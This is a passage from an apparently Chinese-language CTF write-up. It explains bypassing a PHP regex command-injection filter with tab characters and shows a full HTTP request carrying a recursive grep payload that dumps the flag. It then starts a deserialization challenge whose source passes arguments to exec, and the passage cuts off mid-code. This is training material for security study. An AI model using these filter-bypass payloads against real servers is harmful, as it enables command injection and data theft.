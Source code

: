 发现：

- **第一个过滤**：`preg_match("/(ls|c|a|t| |f|i|n|d')/", $_POST['code'])` 阻止命令字符串中包含 `ls`、`c`、`a`、`t`、空格、`f`、`i`、`n` 或 `d'`。
- **第二个过滤**：`preg_match("/[@#%^&*()|\/?><']/", $_POST['code'])` 阻止命令字符串中包含 `@#%^&*()|\/?><'`

那么用制表符当空格，使用grep命令过滤

```
POST /?id=1e0 HTTP/1.1

Host: web-d11ea31914.challenge.longjiancup.cn

Cookie: PHPSESSID=admin123

Content-Type: application/x-www-form-urlencoded

Content-Length: 18


code=grep		-r	""	.
```

得到flag



## 反序列化漏洞

### unseping

源代码：

```php
<?php
highlight_file(__FILE__);
 
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        //这是一个构造函数，在实例化一个对象的时候，首先会去自动执行的一个方法
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        //这是一个析构函数，它在对象被销毁时自动触发，通常用于清理资源或执行收尾操作。当对象生命周期结束（例如脚本结束、对象被 unset()、或没有任何引用时）会自动调用这个方法。
        
        if (in_array($this->method, array("ping"))) {
         	 //in_array(mixed $needle（要查找的值）, array $haystack（被搜索的数组）, bool $strict = false): bool
            call_user_func_array(array($this, $this->method), $this->args); //把一个数组里的参数，原封不动地传给指定的函数或方法并执行。
            //call_user_func_array(callable $callback（可调用的“东西”）, array $args（索引数组，里面的每个元素都会变成被调用函数的一个实参。）): mixed
            /*例：
            function add($a, $b) {
  			  return $a + $b;
			}
			echo call_user_func_array('add', [3, 5]);      // 8
            */
        }
    } //对象销毁时，如果指定了合法方法 "ping"，就自动调用 $this->ping(...$args) 做一次收尾动作。
 
    function ping($ip){
        exec($ip, $result);//把一条 shell 命令丢给操作系统去执行的函数
```